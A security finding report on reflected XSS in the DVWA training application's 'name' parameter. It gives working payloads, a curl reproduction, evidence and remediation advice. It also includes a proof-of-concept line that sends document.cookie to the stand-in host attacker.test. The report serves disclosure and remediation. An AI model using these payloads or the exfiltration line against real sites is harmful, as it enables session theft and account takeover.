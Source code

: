 # Reflected XSS in DVWA XSS (Reflected) via GET parameter "name" enables arbitrary JavaScript execution

**ID:** vuln-0003
**Severity:** HIGH
**Found:** 2025-10-22 16:39:59 UTC

## Description

Summary
Reflected Cross-Site Scripting (XSS) exists in the DVWA module “XSS (Reflected)” at /DVWA/vulnerabilities/xss_r/ affecting the GET parameter name. Untrusted user input is reflected into the HTML response without context-appropriate output encoding, allowing direct JavaScript execution. Multiple payload classes executed successfully and were verified via DOM artifacts. Cookies were readable from JavaScript in the tested context, enabling session theft. The response lacks Content Security Policy and explicitly disables legacy XSS protections.

Affected Endpoint
- URL: http://192.168.13.214/DVWA/vulnerabilities/xss_r/
- Method: GET
- Vulnerable parameter: name
- Authentication: Required (tested with DVWA admin/password)
- DVWA Security Level: low

Reproduction Steps (UI)
1) Log in:
   - Browse to /DVWA/login.php, authenticate as admin/password.
2) Set DVWA security to Low:
   - Navigate to /DVWA/security.php, choose “Low”, submit.
3) Navigate to XSS (Reflected):
   - /DVWA/vulnerabilities/xss_r/
4) Submit the following payload in the “What’s your name?” input and press Submit:
   - Example payload (p3):
     <svg xmlns="http://www.w3.org/2000/svg" onload="document.documentElement.setAttribute('xss_valid','p3')"></svg>
5) Verify execution by running in console:
   document.documentElement.getAttribute('xss_valid')  → returns "p3"

Reproduction (cURL)
Note: Requires authenticated session cookie.
curl "http://192.168.13.214/DVWA/vulnerabilities/xss_r/?name=%3Csvg%20xmlns%3D%22http%3A%2F%2Fwww.w3.org%2F2000%2Fsvg%22%20onload%3D%22document.documentElement.setAttribute('xss_valid','p3')%22%3E%3C%2Fsvg%3E" \
  -H "Cookie: PHPSESSID=REDACTED; security=low"

Verified Payload Matrix (executed client-side)
- p1 (script tag, HTML context)
  Payload: <script>document.documentElement.setAttribute('xss_valid','p1')</script>
  Result: document.documentElement.getAttribute('xss_valid') = "p1"
  Evidence: Request ID 3746 (proxy)
- p2 (attribute/event handler)
  Payload: <img src=x onerror="document.documentElement.setAttribute('xss_valid','p2')">
  Result: document.documentElement.getAttribute('xss_valid') = "p2"
  Evidence: Request ID 3749 (proxy)
- p3 (SVG onload)
  Payload: <svg xmlns="http://www.w3.org/2000/svg" onload="document.documentElement.setAttribute('xss_valid','p3')"></svg>
  Result: document.documentElement.getAttribute('xss_valid') = "p3"
  Evidence: Request ID 3755 (proxy); response body shows injected SVG inside the page
- p4 (autofocus + onfocus)
  Payload: <textarea autofocus onfocus="document.documentElement.setAttribute('xss_valid','p4')"></textarea>
  Result: document.documentElement.getAttribute('xss_valid') = "p4"

Key Evidence (Proxy/Headers/Body)
- Response headers for XSS page (Request ID 3755):
  HTTP/1.1 200 OK
  X-XSS-Protection: 0
  Content-Type: text/html;charset=utf-8
  (No Content-Security-Policy header present)
- Response body snippet confirming reflection and execution context (ID 3755):
  ... <pre>Hello <svg xmlns="http://www.w3.org/2000/svg" onload="document.documentElement.setAttribute('xss_valid','p3')"></svg></pre> ...
- Request details (ID 3755):
  GET /DVWA/vulnerabilities/xss_r/?name=%3Csvg...onload%3D%22document.documentElement.setAttribute('xss_valid'%2C' p3')%22%3E%3C%2Fsvg%3E
  Cookie: PHPSESSID=REDACTED; security=low
- Cookie access feasibility (observed in-page):
  document.cookie returned: "PHPSESSID=REDACTED; security=low"
  This indicates that, in the tested context, session identifiers were accessible from JavaScript (risk: theft). Ensure HttpOnly is set and enforced for session cookies on all responses.

Impact
- Account takeover via session theft (readable session cookies in-page during an XSS exploit).
- Theft of CSRF tokens and sensitive DOM data.
- Arbitrary actions on behalf of the victim (privileged user/admin) when they visit a crafted link (UI:R).
- Phishing/defacement within application context.
- Potential pivot to perform stored attacks or exfiltrate sensitive information.

CVSS v3.1
- Vector: AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N
- Base Score: 6.1 (Medium)
Contextual Severity: High for this application due to ease of exploitation, lack of CSP, and feasibility of session/CSRF token exfiltration, leading to practical account takeover.

Root Cause
- Directly reflecting untrusted name parameter into HTML without context-appropriate encoding or sanitization. The reflected sink appears inside HTML (e.g., within a <pre> block), enabling tag injection and event-handler execution.

Remediation
- Apply strict contextual output encoding/escaping on all untrusted output:
  - For PHP, use htmlspecialchars($input, ENT_QUOTES, 'UTF-8') before rendering inside HTML context.
  - For attribute, JavaScript, CSS, or URL contexts, apply appropriate encoders or avoid placing untrusted data in dangerous contexts.
- Validate inputs with allowlists for expected characters/format; reject or sanitize HTML tags and event handlers.
- Implement a robust Content Security Policy (CSP), e.g.:
  Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none'; base-uri 'self'; frame-ancestors 'self'
  Prefer nonces or hashes for any inline scripts; remove inline event handlers.
- Set secure cookie attributes to prevent theft and cross-site leakage:
  - HttpOnly; Secure; SameSite=Strict (or Lax depending on flows)
  - Ensure the session cookie is consistently set with HttpOnly and not readable via document.cookie in any response.
- Avoid rendering untrusted data as raw HTML. Use safe templating engines and disable or sanitize dangerous constructs.
- Consider integrating server-side HTML sanitization libraries (when HTML input is required).
- Add security headers:
  - X-Content-Type-Options: nosniff
  - Referrer-Policy: strict-origin-when-cross-origin
  - Permissions-Policy as appropriate

Proof-of-Concept (cookie exfil payload example)
- For demonstration in a test environment only:
  <img src=x onerror="new Image().src='http://attacker.test/steal?c='+encodeURIComponent(document.cookie)">
This shows practical risk of session theft if cookies are readable from JS.

References
- OWASP XSS Cheat Sheet: https://owasp.org/www-community/attacks/xss/
- OWASP XSS Filter Evasion Cheat Sheet: https://owasp.org/www-community/xss-filter-evasion-cheatsheet

Appendix – Proxy Evidence Index
- Req ID 3746: p1 script tag – successful execution (artifact 'p1')
- Req ID 3749: p2 img onerror – successful execution (artifact 'p2')
- Req ID 3755: p3 svg onload – successful execution; header shows X-XSS-Protection: 0; no CSP; body reflects payload as HTML
- Additional: p4 textarea autofocus onfocus – successful execution (artifact 'p4')

Conclusion
The name parameter in DVWA’s “XSS (Reflected)” module is vulnerable to reflected XSS. Multiple payload types execute reliably due to lack of output encoding and absence of CSP. If a privileged user visits a malicious link, an attacker can run arbitrary JavaScript, exfiltrate session/CSRF data, and act on the victim’s behalf. Implement the recommended mitigations immediately.
